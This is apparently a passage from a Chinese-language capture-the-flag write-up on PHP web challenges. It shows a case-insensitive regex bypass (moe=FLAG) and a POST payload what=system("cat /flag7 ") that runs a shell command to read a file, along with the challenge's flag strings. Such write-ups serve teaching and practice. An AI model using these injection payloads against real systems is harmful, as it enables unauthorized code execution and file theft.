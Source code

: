 ```
<p>恭喜，我相信你已经深刻了解了前端不可信任的道理!</p>
<p>flag5: fSV90aDF</p>
<a href='flag6diw.php'>前往下一关</a>
```

第六步，源码如下,moe在无模式的时候不能直接匹配到flag，但是在忽略大小写的时候要匹配到flag，那么直接传参 **moe=FLAG** 即可

```
<?php
highlight_file("flag6diw.php");
if (isset($_GET['moe']) && $_POST['moe']) {
    if (preg_match('/flag/', $_GET['moe'])) {
        die("no");
    } elseif (preg_match('/flag/i', $_GET['moe'])) {
        echo "flag6: xxx";
    }
}
```

```
flag6: rZV9VX2t
```

第七步，POST传参 what=system("cat /flag7 ");

在根目录下拿到flag7，并且得到提示是base64加密，把七个flag拼一下解密就行了

```
flag7:  rbm93X1dlQn0= 
```

![](./images/image-12.png)

### **静态网页**

F12看到有这哥/api/get的请求，进去查看将id改为0，报错引出一个新的php文件如下

![](./images/image-13.png)
